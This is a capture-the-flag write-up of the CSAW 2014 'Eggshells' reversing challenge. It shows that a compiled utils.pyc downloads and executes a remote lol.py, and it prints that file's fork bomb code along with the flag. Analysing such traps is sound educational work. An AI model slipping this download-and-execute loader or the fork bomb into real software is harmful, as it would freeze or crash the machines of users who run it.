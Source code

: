 ```yaml
---
layout: post
title: "CSAW 2014 Eggshells"
date: 2014-10-07 20:05:49 -0400
author: [superkojiman]
comments: true
categories: [csaw]
---
```


### Solved by superkojiman

This challenge is worth 100 points and we're given a zip file called eggshells-master.zip along with the following hint:

> I trust people on the internet all the time, do you?

The zip file contains a bunch of python scripts as well as one compiled python byte code:

```
root@kali ~/Desktop/re100/eggshells-master
# ls -l
total 72
-rwxr-xr-x 1 root root  1051 Sep 19 00:54 capstone.py
-rwxr-xr-x 1 root root  1191 Sep 19 00:54 distorm.py
-rwxr-xr-x 1 root root 29446 Sep 19 00:54 interpreter.py
-rwxr-xr-x 1 root root  5439 Sep 19 00:54 main.py
drwxr-xr-x 3 root root  4096 Sep 19 00:30 nasm
-rwxr-xr-x 1 root root  4086 Sep 19 00:54 nasm.py
-rwxr-xr-x 1 root root   622 Sep 19 00:54 server.py
-rwxr-xr-x 1 root root  2876 Sep 19 00:54 shellcode.py
-rw-r--r-- 1 root root   245 Sep 18 23:51 utils.pyc
-rwxr-xr-x 1 root root   107 Sep 19 00:55 wrapper.py
```

Attempting to run any of these python scripts would cause my machine to lock up; hence the hint provided.

Since utils.pyc was the only one that stood out, I decided to run the strings command on it to see what would show up:

```
root@kali ~/Desktop/re100/eggshells-master
# strings utils.pyc
urllib2s
http://kchung.co/lol.pyN(
__import__t
urlopent
read(
/Users/kchung/Desktop/CSAW Quals 2014/rev100/utils.pyt
<module>
```

Looks like it pulls down some python file called lol.py from http://kchung.co. I went ahead and downloaded lol.py and examined its contents:

```
root@kali ~/Desktop/re100/eggshells-master
# curl http://kchung.co/lol.py
import os
while True:
    try:
        os.fork()
    except:
        os.system('start')
# flag{trust_is_risky}
```

lol.py itself is a fork bomb which which gets downloaded and executed whenever any of the python scripts are run. This explains why my machine would become unresponsive.

The flag of course, is right at the bottom of lol.py: **flag{trust_is_risky}**



